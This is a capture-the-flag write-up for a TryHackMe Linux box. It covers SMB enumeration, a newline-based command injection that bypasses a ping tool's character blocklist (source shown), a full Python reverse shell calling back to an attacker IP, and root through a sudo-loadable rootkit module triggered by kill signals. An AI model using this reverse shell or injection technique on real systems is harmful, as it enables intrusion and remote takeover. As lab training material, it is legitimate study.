


<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Easy, **IP:** 10.10.209.211 (`routerpanel`)

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **SMB**, an anonymous `public` share holds a note pointing to `/myrouterpanel`.
2. `/myrouterpanel` has a ping tool with a blocklist filter (`; & |`), bypass with a newline (`%0a`) → command execution → reverse shell as `www-data`.
3. `www-data` → **athena** by password reuse / found creds.
4. `athena` may `sudo insmod /mnt/.../secret/venom.ko`, a custom **LKM rootkit**. Reverse it in Ghidra: `kill -63 0` loads/arms it, `kill -57 0` grants the calling process root.

</div>

---

## Full Walkthrough

### Nmap scan

```bash
Nmap scan report for athena.thm (10.10.209.211)
Host is up, received conn-refused (0.088s latency).
Scanned at 2025-05-05 10:21:39 EDT for 794s
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     REASON      VERSION
22/tcp    open     ssh         syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqrhWpCkIWorEVg4w8mfia/rsblIvsmSU9y9mEBby77pooZXLBYMvMC0aiaJvWIgPVOXrHTh9IstAF6s9Tpjx+iV+Me2XdvUyGPmzAlbEJRO4gnNYieBya/0TyMmw0QT/PO8gu/behXQ9R6yCjiw9vmsV+99SiCeuIHssGoLtvTwXE2i8kxqr5S0atmBiDkIqlp+qD1WZzc8YP5OU0CIN5F9ytZOVqO9oiGRgI6CP4TwNQwBLU2zRBmUmtbV9FRQyObrB1zCYcEZcKNPzasXHgRkfYMK9OMmUBhi/Hveei3BNtdaWARN9x30O488BmdET3iaTt5gcIgHfAO+5WzUPBswerbcOHp2798DXkuVpsklS9Zi9dvpxoyZFsmu1RoklPWea+rxq09KRjciXNvy+jV8zBGCGKwwi62nL9mRyA5ZakJKrpWCPffnEMK37SHL0WqWMRZI4Bbj2cOpJztJ+5Ttbj5wixecnvZu8hkknfMSVwPM8RqwQuXtes8AqF6gs=
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPBg1Oa6gqrvB/IQQ1EmM1p5o443v5y1zDwXMLkd9oUfYsraZqddzwe2CoYZD3/oTs/YjF84bDqeA+ILx7x5zdQ=
|   256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBaJ6imGGkCETvb1JN5TUcfj+AWLbVei52kD/nuGSHGF
80/tcp    open     http        syn-ack     Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Athena - Gods of olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp   open     netbios-ssn syn-ack     Samba smbd 4.6.2
445/tcp   open     netbios-ssn syn-ack     Samba smbd 4.6.2
12600/tcp filtered unknown     no-response
17795/tcp filtered unknown     no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-05T14:34:50
|_  start_date: N/A
| nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ROUTERPANEL<00>      Flags: <unique><active>
|   ROUTERPANEL<03>      Flags: <unique><active>
|   ROUTERPANEL<20>      Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   SAMBA<00>            Flags: <group><active>
|   SAMBA<1d>            Flags: <unique><active>
|   SAMBA<1e>            Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 16268/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 64332/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38064/udp): CLEAN (Failed to receive data)
|   Check 4 (port 12905/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```


I found that smb was running and decided to try to access it I found a public share called `public` and found the following txt file within the share and the contents are below.

```
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

after doing to that part of the website I found a input field which allowed you to enter an IP address in to ping an iP I tried command injection by null character `%0a` and was able to execute commands but the `ping.php` has some measures in place to block characters to prevent shells from being executed

```php
<?php
if (isset($_POST['submit'])) {
    $host = $_POST['ip'];

    // Validate input
    if (containsMaliciousCharacters($host)) {
        echo "Attempt hacking!";
        exit;
    }

    // Execute command safely
    $cmd = "ping -c 4 " . $host;
    $output = shell_exec($cmd);

    if (!$output) {
        echo "Failed to execute ping.";
        exit;
    }

    echo "<pre>" . $output . "</pre>";
}

function containsMaliciousCharacters($input) {
    // Define the set of characters to check for
    $maliciousChars = array(';', '&', '|');

    // Check if any of the malicious characters exist in the input
    foreach ($maliciousChars as $char) {
        if (stripos($input, $char) !== false) {
            return true;
        }
    }

    return false;
}
?>
</pre>
```

so what I did was make the python program below to get a webshell then afterwards download a python reverse shell into the `/tmp `directory then executed it to get a netcat shell from there I then executed a propper shell to get a pwncat shell

```python
import socket
import subprocess
import os

# Target IP and port to connect back to
target_ip = "10.8.118.122"  # Replace with the attacker's IP address
target_port = 9001        # Replace with the attacker's listening port

# Create a socket object
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the attacker
client.connect((target_ip, target_port))

while True:
    # Receive the command from the attacker
    command = client.recv(1024).decode("utf-8")
    
    if command.lower() == "exit":
        break
    
    if command[:2] == "cd":
        try:
            # Change directory and send back the result
            os.chdir(command[3:])
            client.send(b"Changed directory")
        except FileNotFoundError as e:
            client.send(str(e).encode())
    else:
        # Execute the command and send the result back
        output = subprocess.run(command, shell=True, capture_output=True)
        client.send(output.stdout + output.stderr)

# Close the connection when done
client.close()
```


```bash
(remote) www-data@routerpanel:/var/www/html/myrouterpanel$ ls
index.html  ping.php  style.css  under-construction.html
(remote) www-data@routerpanel:/var/www/html/myrouterpanel$ 
```

the user can run `root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko`

I downloaded that and put it into `ghidra` and found interesting functions which hide the proc



and another function which if killed gives root




```bash
(remote) athena@routerpanel:/home/athena$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
(remote) athena@routerpanel:/home/athena$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
insmod: ERROR: could not insert module /mnt/.../secret/venom.ko: Invalid parameters
(remote) athena@routerpanel:/home/athena$ kill -63 0
(remote) athena@routerpanel:/home/athena$ lsmod | grep venom
venom                  16384  0
(remote) athena@routerpanel:/home/athena$ id
uid=1001(athena) gid=1001(athena) groups=1001(athena)
(remote) athena@routerpanel:/home/athena$ kill -57 0
(remote) root@routerpanel:/home/athena$ 
```
